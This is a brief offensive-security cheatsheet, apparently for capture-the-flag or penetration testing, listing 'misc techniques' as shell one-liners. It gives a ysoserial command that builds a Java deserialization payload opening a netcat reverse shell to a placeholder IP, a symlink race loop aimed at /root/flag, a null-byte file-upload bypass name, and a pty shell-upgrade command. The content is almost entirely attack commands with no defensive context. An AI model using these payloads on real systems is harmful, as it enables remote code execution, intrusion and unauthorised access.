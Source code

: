 # 🧪 Misc Techniques Cheatsheet

## Deserialization Exploit (Java)
```bash
java -jar ysoserial.jar CommonsCollections1 'nc <IP> <PORT> -e /bin/sh' > payload.ser
```

## Race Conditions
```bash
while true; do ln -sf /root/flag target; done
while true; do ./vulnerable target; done
```

## Upload Bypass
```bash
image.php%00.jpg
```

## Better Interactive Shell
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```